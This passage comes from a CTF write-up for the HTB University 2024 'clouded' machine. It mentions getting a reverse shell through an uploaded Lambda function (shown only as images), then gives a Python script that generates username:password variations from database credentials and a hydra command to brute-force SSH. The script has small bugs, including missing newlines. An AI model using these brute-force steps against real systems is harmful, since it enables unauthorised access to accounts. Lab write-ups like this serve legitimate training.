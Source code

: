 ![handler function upload](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/handler_function.png)

We can see that we successfully uploaded our function and we have executed using `lambda invoke`

![lambda revshell](/HTB-UNIVERSITY-2024/HTB-UNIV/2024/images/lambda_revshell.png)

We got a reverse shell, but after attempting privilege escalation on the machine, we realized there was a problem: there were almost no binaries, and there were no interesting files. At that moment, we thought that maybe this was out of scope, and we were right!

## User

After experimenting for a while, we decided to try our luck again at brute-forcing the SSH login, as we were convinced the solution had something to do with the database we found earlier and it was the case !

Using this script we managed to get a big list of variations of the credentials found in the db and one of them miraculously worked:

```py
#!/usr/bin/env python3
import sys
import os.path
FILE_USERS = open("users_wordlist.txt", "w")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("usage: {} names.txt".format((sys.argv[0])))
        sys.exit(0)

    if not os.path.exists(sys.argv[1]):
        print("{} not found".format(sys.argv[1]))
        sys.exit(0)

    for line in open(sys.argv[1]):
        tokens = line.split(" ")

        # skip empty lines
        if len(tokens) < 1:
            continue

        fname = tokens[0].lower()
        lname = tokens[1].lower()
        passwd = tokens[2]
        FILE_USERS.write(fname + lname + ":"+passwd)           # johndoe
        FILE_USERS.write(lname + fname+ ":"+passwd)           # doejohn
        FILE_USERS.write(fname + "." + lname+ ":"+passwd)     # john.doe
        FILE_USERS.write(lname + "." + fname+ ":"+passwd)     # doe.john
        FILE_USERS.write(lname + fname[0]+ ":"+passwd)        # doej
        FILE_USERS.write(fname[0] + lname+ ":"+passwd)        # jdoe
        FILE_USERS.write(lname[0] + fname+ ":"+passwd)        # djoe
        FILE_USERS.write(fname[0] + "." + lname+ ":"+passwd)  # j.doe
        FILE_USERS.write(lname[0] + "." + fname+ ":"+passwd)  # d.john
        FILE_USERS.write(fname+ ":"+passwd)                   # john
        FILE_USERS.write(lname+ ":"+passwd)                   # joe
FILE_USERS.close()
```
We use hydra to bruteforce: `hydra -C creds.txt ssh://clouded.htb`
